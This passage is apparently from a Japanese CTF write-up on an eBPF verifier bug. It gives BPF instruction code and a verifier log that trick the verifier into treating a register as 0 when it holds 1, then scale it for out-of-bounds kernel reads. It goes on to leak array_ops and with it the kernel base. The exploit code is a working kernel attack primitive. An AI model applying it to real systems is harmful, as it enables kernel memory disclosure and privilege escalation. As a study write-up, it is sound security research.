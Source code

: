 ```make_1_looks_0.c
    /* fix r6/r7 range */
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 0, 2),              // ensure R6>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 2, 1),              // ensure 0<=R6<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 0, 2),              // ensure R7>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 2, 1),              // ensure 0<=R7<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    // exploit r6 range 
    BPF_ALU64_REG(BPF_RSH, BPF_REG_6, BPF_REG_7),       // r6 >>= r7 (r6 regarded as 0, actually 1)
    BPF_ALU64_IMM(BPF_NEG, BPF_REG_6, 0),               // r6 *= -1
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, N),               // r6 *= N
```
但し、`control_map`はサイズ8、要素数10のARRAYである。`[0]`には常に1を入れ、`[1]`には常に0を入れておく。前半はただ`control_map`から0と1を取得しているだけである。`fix r6/r7 range`と書いてあるところでバグを利用して0に見える1を作っている。ジャンプ命令が多いのは、R6/R7の上限と下限をそれぞれ1,0にするためである。最後に、`BPF_NEG`にしているのは、leakの段階ではleakしたいものが負の方向にあるからである。最後に**定数のN**をかけてOOB(R)を達成している。尚、このNをmapから取ってきたような値にすると、MULの時にverifierがdstをunknownにマークしてしまうため、プログラムをロードする度に定数値をNに入れて毎回動的にロードしている(前回eBPF問題を解いた時はNをmapから取得した値にして何度もverifierに怒られた...)。
実際にlog表示を見てみると、以下のようにR6は0と認識されていることが分かる。
```verifier-log.txt
from 28 to 31: R0=map_value(ks=4,vs=8,id=0),min_value=0,max_value=0 R6=inv,min_value=0,max_value=1 R7=inv,min_value=0 R8=map_valup
31: (75) if r7 s>= 0x2 goto pc+1
 R0=map_value(ks=4,vs=8,id=0),min_value=0,max_value=0 R6=inv,min_value=0,max_value=1 R7=inv,min_value=0,max_value=1 R8=map_value(p
32: (05) goto pc+2
35: (7f) r6 >>= r7
36: (87) r6 neg 0
37: (27) r6 *= 136
38: (0f) r9 += r6
39: (79) r3 = *(u64 *)(r9 +0)
 R0=map_value(ks=4,vs=8,id=0),min_value=0,max_value=0 R6=inv,min_value=0,max_value=0 R7=inv,min_value=0,max_value=1 R8=map_value(p
40: (7b) *(u64 *)(r8 +0) = r3
```

## leak from bpf_map.ops
今回はmap typeとしてARRAYを選択しているため、`struct bpf_array`と`struct bpf_map`が使われる。構造体はそれぞれ以下のとおり。
![](https://i.imgur.com/tpYB9Nh.png)
![](https://i.imgur.com/DJM7Pwy.png)

この内、`bpf_map.ops`は、`kernel/bpf/arraymap.c`で定義されるように`array_ops`が入っている。これをleakすることでkernbaseをleakしたことになる。
![](https://i.imgur.com/j5FR3Sg.png)
